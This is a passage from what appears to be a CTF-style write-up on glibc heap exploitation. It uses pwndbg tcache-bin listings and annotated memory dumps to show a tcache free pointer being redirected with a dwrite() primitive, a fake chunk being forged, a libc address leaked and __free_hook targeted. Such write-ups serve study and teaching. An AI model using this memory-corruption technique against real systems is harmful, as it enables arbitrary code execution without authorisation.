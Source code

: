 The state of the first `tcachebins` is as follows.  
```  
pwndbg> bins  
tcachebins  
0x20 [  6]: 0x55555555b2a0 —▸ 0x55555555a770 —▸ 0x55555555ae50 —▸
0x55555555acb0 —▸ 0x55555555ab10 —▸ 0x55555555a6e0 ◂— 0x0  
0x70 [  7]: 0x55555555a9b0 —▸ 0x55555555ab50 —▸ 0x55555555acf0 —▸
0x55555555ae90 —▸ 0x55555555b030 —▸ 0x55555555b1b0 —▸ 0x55555555a700 ◂— 0x0  
0x80 [  7]: 0x55555555a910 —▸ 0x55555555aa90 —▸ 0x55555555ac30 —▸
0x55555555add0 —▸ 0x55555555af70 —▸ 0x55555555b220 —▸ 0x55555555a660 ◂— 0x0  
0xd0 [  5]: 0x55555555a190 —▸ 0x555555559e60 —▸ 0x555555559b30 —▸
0x555555559800 —▸ 0x555555559370 ◂— 0x0  
0xf0 [  2]: 0x55555555b0a0 —▸ 0x55555555a390 ◂— 0x0  
```

Use `dwrite()` to change the 0xf0 `tcachebin` free chunk from `0x55555555a390`
to `0x55555555aef0`.  
```  
State before change：0xf0 [  2]: 0x55555555b0a0 —▸ 0x55555555a390 ◂— 0x0  
　　　　　　　　　　　　　　　  
State after change： 0xf0 [  2]: 0x55555555b0a0 —▸ 0x55555555aef0 ◂— 0x0  
```

The state of the heap memory after the change is as follows.  
```  
0x55555555b070: 0x000055555555b1b0      0x000055555555ae90  
0x55555555b080: 0x0000000000000000      0x0000000000000000  
0x55555555b090: 0x0000000000000000      0x00000000000000f1  
0x55555555b0a0: 0x000055555555aef0      0x0000555555559010  
　　　　　　 　　~~~~~~~~~~~~~~~~~~　　  
0x55555555b0b0: 0x0000000000000000      0x0000000000000000  
0x55555555b0c0: 0x0000000000000000      0x0000000000000000  
0x55555555b0d0: 0x0000000000000001      0x0000000000000035  
0x55555555b0e0: 0x0000000000000000      0x0000000000000000  
```

The memory status near `0x000055555555aef0` is as follows.  
```  
0x55555555ae70: 0x000055555555acc0      0x000055555555b000  
0x55555555ae80: 0x0000000000000020      0x0000000000000070  
0x55555555ae90: 0x000055555555b030      0x0000555555559010  
0x55555555aea0: 0xffffffff00000000      0xffffffff00000000  
0x55555555aeb0: 0x000100010000ffff      0x0000000000000000  
0x55555555aec0: 0x00000000fd929108      0x0000000000000000  
0x55555555aed0: 0x000055555555b030      0x000055555555acf0  
0x55555555aee0: 0x0000000000000000      0x0000000000000000　--> Write 0xf1 to
create a fake chunk.  
0x55555555aef0: 0x0000000000000000      0x0000000000000071　--> Leak the libc
address (0x00007ffff7f8bc40) of this chunk.  
0x55555555af00: 0x00007ffff7f8bc40      0x000055555555ad50  
0x55555555af10: 0xffffffffffffffff      0xffffffffffffffff  
0x55555555af20: 0x0000000100000000      0x0000000000000000  
0x55555555af30: 0x0000000093507296      0x0000000000000000  
0x55555555af40: 0x0000000000000000      0x0000000000000000  
0x55555555af50: 0x0000000000000000      0x0000000000000000  
0x55555555af60: 0x0000000000000070      0x0000000000000080  --> Rewrite this
0x80 size chunk and rewrite __free_hook.  
0x55555555af70: 0x000055555555b220      0x0000555555559010  
0x55555555af80: 0x0000000000000003      0x0000000000000000  
0x55555555af90: 0x0000000000000003      0x0000000000000000  
0x55555555afa0: 0x0000000000000001      0x0000000000000000  
0x55555555afb0: 0x0000000000000000      0x0000000000000000  
0x55555555afc0: 0x0000000000000000      0x0000000000000000  
0x55555555afd0: 0x0000000000000000      0x0000000000000000  
0x55555555afe0: 0x0000000000000000      0x0000000000000021  
0x55555555aff0: 0x000055555555b20a      0x0000000000000000  
```